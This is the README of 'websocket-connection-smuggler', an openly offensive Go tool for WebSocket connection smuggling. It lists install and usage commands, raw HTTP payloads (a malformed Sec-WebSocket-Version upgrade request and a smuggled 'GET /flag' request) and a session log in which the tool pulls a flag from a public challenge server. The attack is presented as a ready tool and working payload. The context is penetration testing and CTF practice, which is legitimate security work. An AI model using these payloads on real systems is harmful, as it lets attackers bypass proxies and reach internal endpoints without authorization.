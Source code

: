<img src="https://user-images.githubusercontent.com/13212227/70248653-8de45d00-17be-11ea-9602-6b8f2754ddfb.png">

# websocket-connection-smuggler
## Dependency
```cassandraql
$ go get -u github.com/c-bata/go-prompt
```

## Install 
```cassandraql
$ go get github.com/hahwul/websocket-connection-smuggler
```

or 

```cassandraql
$ git clone https://github.com/hahwul/websocket-connection-smuggler
$ cd websocket-connection-smuggler
$ go build
$ ./websocket-connection-smuggler
```

## Usage
### 1. run wcs(websocket-connection-smuggler)
```cassandraql
$ websocket-connection-smuggler
```

### 2. set target address(domain or ip address)
```cassandraql
$ WCS(...) > set target {your target}
```

### 3. is SSL? (default is false)
```cassandraql
# HTTPS
$ WCS(...) > set ssl true

# HTTP
$ WCS(...) > set ssl false
```

### 4. set original request(o_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set o_data
```

e.g
```cassandraql
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

```

### 5. set smuggling reqeust(s_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set s_data
```

e.g
```cassandraql
GET /flag HTTP/1.1 
Host: localhost:5000

```

## Test to 0ang3el Websocket Smuggling Challenge
```

             ___          
            /   \\        
       /\\ | . . \\       
     ////\\|     ||       
   ////   \\ ___//\       
  ///      \\      \      
 ///       |\\      |     
//         | \\  \   \    
/          |  \\  \   \   
           |   \\ /   /   
           |    \/   /    
            ---------
     WebSocket Connection Smuggler
     by @hahwul

WCS(target=>None | ssl=>false ) > set target challenge.0ang3el.tk:80
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set o_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set s_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > send
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

2019/11/30 03:39:15 HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 49
Date: Fri, 29 Nov 2019 18:39:15 GMT

{"flag": "In 50VI37 rUS5I4 vODK@ DRiNKs YOu!!!"}
gth: 119
Date: Fri, 29 Nov 2019 18:39:14 GMT

        �0{"pingInterval":25000,"pingTimeout":60000,"upgrades":["websocket"],"sid":"5148720e07f240a99e6aa7457f41686f"}�40
```

## Video on asciinema
[![asciicast](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV.svg)](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV)

## Donate
I like coffee! I'm a coffee addict.<br>
<a href="https://www.paypal.me/hahwul"><img src="https://www.paypalobjects.com/digitalassets/c/website/logo/full-text/pp_fc_hl.svg" height="50px"></a>
<a href="https://www.buymeacoffee.com/hahwul"><img src="https://cdn.buymeacoffee.com/buttons/default-black.png" alt="Buy Me A Coffee" height="50px"></a>

## Reference
- https://speakerdeck.com/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis
- https://www.hahwul.com/2019/10/websocket-connection-smuggling.html
- https://github.com/hahwul/websocket-connection-smuggling-go
